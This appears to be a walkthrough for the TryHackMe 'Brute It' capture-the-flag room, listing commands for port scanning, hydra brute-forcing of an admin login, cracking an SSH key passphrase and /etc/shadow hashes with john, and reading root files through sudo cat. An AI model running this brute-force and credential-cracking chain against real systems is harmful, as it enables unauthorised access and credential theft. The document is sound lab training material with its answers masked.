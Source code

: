 # Brute It

- Deploy the machine

	  no answer needed

- How many ports are open?

	- `nmap -p- <TARGET_IP>` or
	- `scilla port -target <TARGET_IP>`
	- `2`

- What version of SSH is running?

	- `nmap -sS -sV -Pn -p 22 <TARGET_IP>`
	- `OpenSSH 7.6p1`

- What version of Apache is running?

	- `nmap -sS -sV -Pn -p 80 <TARGET_IP>`
	- `2.*.**`

- Which Linux distribution is running?

	- `Ubuntu`

- What is the hidden directory?

	- `scilla dir -target <TARGET_IP>`
	- `/admin`

- What is the user:password of the admin panel?

	- `hydra -l admin -P /usr/share/wordlists/rockyou.txt <TARGET_IP> http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -f`
	- `admin:******`

- What is John's RSA Private Key passphrase?

	- `python2 /usr/share/john/ssh2john.py  rsa_priv > hash`
	- `john --wordlist=/usr/share/wordlists/rockyou.txt hash`
	- `**********`

- user.txt

	- `chmod 400 hash`
	- `ssh john@<TARGET_IP> -i rsa_priv and enter the passphrase`
	- `cat user.txt`
	- `THM{***************************}`

- Web flag

	- `THM{********************}`

- What is the root's password?

	- `sudo cat /etc/shadow`
	- `sudo cat /etc/passwd`
	- Copy these two files into your machine
	- `unshadow passwd shadow > passwords.txt`
	- `john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt`
	- `*********`

- root.txt

	- `sudo -l`
	- https://gtfobins.github.io/gtfobins/cat/
	- `sudo cat /root/` :)


